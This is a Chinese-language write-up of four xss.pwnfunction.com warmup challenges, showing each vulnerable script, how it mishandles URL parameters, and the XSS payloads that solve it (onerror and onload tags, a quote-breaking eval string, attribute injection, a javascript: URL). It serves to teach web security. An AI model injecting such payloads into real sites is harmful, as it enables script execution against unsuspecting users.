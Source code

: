# XSS

## 链接

* [XSS Cheat Sheet](https://www.mdeditor.tw/pl/ppwu/zh-tw)
* [PortSwigger Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## xss.pwnfunction.com 题目解析

1. ma-spaghet!

```html
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

**问题分析**

Client side script 将URL中的somebody参数作为**spaghet**的innerHTML。因此，只要构造一个合法的HTML标签来触发Javascript代码即可。
由于<script>标签只能作为<head>或者<body>的子节点，这里可以考虑使用<svg>或者<img>标签。

**答案**

```html
* <img src="x" onerror="alert(1337)">
* <svg onload="alert(1337)"/>
```

2. Jefff

题目链接：https://xss.pwnfunction.com/warmups/jefff/

```html
<!-- Challenge -->
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

**问题分析**

Client side script 将URL中的jeff参数注入到一段代码中，然后执行这段代码。这里使用了模版字面量
（[Template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)）。
jeff参数被编码成一段字符串与"Ma name "连接。因此，如果想要注入代码并获得执行，需要break这段字符串。

**答案**

* \"-alert(1237)-\"

这里使用转义字符来插入引号，插入减号（也可以插入加号，但是要做URL编码）来构造一段合法的js代码（ma = "Ma name " - alert(1337) - ""）。

3. Ugandan Knuckles

题目链接：https://xss.pwnfunction.com/warmups/da-wey/

```html
<!-- Challenge -->
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

**问题分析**

Client side script将参数 wey 插入到<input>中国作为属性placeholder的值。因此，需要break引号，并插入一个新的属性，使其触发alert函数。

**答案**

```html
* " onfocus=alert(1337) autofocus="
* " onclick="alert(1337)
```

4. Ricardo Milos

题目链接：https://xss.pwnfunction.com/warmups/ricardo/

```html
<!-- Challenge -->
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

**问题分析**

script标签中的代码将 ricardo 参数赋值给 ricardo form 的 action。[HTML Form](https://www.w3schools.com/tags/att_form_action.asp)
的 action 属性是一个URL。如果它包含了javascript协议号，则其后的代码会被浏览器执行，可参考
[RULE#7 - Avoid Javascript URLs](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

**答案**

```html
* javascript:alert(1337)
```


